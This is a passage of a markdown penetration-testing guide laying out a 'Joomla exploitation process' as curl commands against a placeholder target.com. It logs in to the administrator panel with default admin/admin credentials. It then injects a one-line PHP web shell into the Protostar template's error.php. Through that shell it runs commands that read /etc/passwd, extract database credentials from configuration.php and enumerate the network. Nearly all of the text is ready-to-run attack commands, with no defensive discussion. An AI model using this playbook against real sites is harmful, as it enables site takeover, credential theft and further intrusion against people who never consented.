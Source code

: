 ```bash
```

---

## Professional Methodology & Workflow

### Systematic Joomla Exploitation Process

#### Phase 1: Access Verification
```bash
# 1. Confirm administrative access
curl -X POST "http://target.com/administrator/index.php" \
  -d "username=admin&passwd=admin&task=login" \
  -c cookies.txt

# 2. Verify template access
curl -b cookies.txt "http://target.com/administrator/index.php?option=com_templates"

# 3. Test basic functionality
curl -b cookies.txt "http://target.com/administrator/index.php?option=com_templates&view=template&id=506"
```

#### Phase 2: Template Compromise
```bash
# 1. Backup original template files
curl -b cookies.txt \
  "http://target.com/administrator/index.php?option=com_templates&view=template&id=506&file=L2Vycm9yLnBocA%3D%3D" \
  > original_error.php.backup

# 2. Inject minimal web shell
# Add: <?php system($_GET['cmd']); ?>

# 3. Test execution
curl "http://target.com/templates/protostar/error.php?cmd=id"

# 4. Document changes
echo "$(date): Modified error.php with web shell" >> exploitation_log.txt
```

#### Phase 3: Information Gathering
```bash
# 1. System enumeration
curl "http://target.com/templates/protostar/error.php?cmd=uname+-a"
curl "http://target.com/templates/protostar/error.php?cmd=cat+/etc/passwd"

# 2. Database credential extraction
curl "http://target.com/templates/protostar/error.php?cmd=cat+configuration.php"

# 3. Network reconnaissance
curl "http://target.com/templates/protostar/error.php?cmd=netstat+-tulpn"
curl "http://target.com/templates/protostar/error.php?cmd=arp+-a"
```
